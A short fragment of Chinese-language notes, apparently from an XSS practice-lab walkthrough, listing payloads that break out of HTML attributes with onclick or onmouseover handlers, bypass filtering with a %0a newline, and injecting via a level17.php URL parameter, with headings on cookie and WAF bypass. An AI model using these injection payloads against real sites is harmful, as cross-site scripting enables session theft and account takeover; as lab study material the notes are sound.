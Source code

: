 

![image-20220321185512728](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220321185512728.png)



payload

```js
" type="text" οnclick="alert(1)"
```





## cookie绕过



![在这里插入图片描述](https://img-blog.csdnimg.cn/20201204160501518.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70)







![image-20220321185637436](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220321185637436.png)







## %0a换行符绕过

采用换行符%0a进行绕过,触发xss。

payload

```js
<a%0atype="text"%0aonclick="alert(111)">
```





## 支持swf 闭合标签

payload

```
level17.php?arg01=a&arg02="> onmouseover=alert()
```





------



# WAF绕过思路
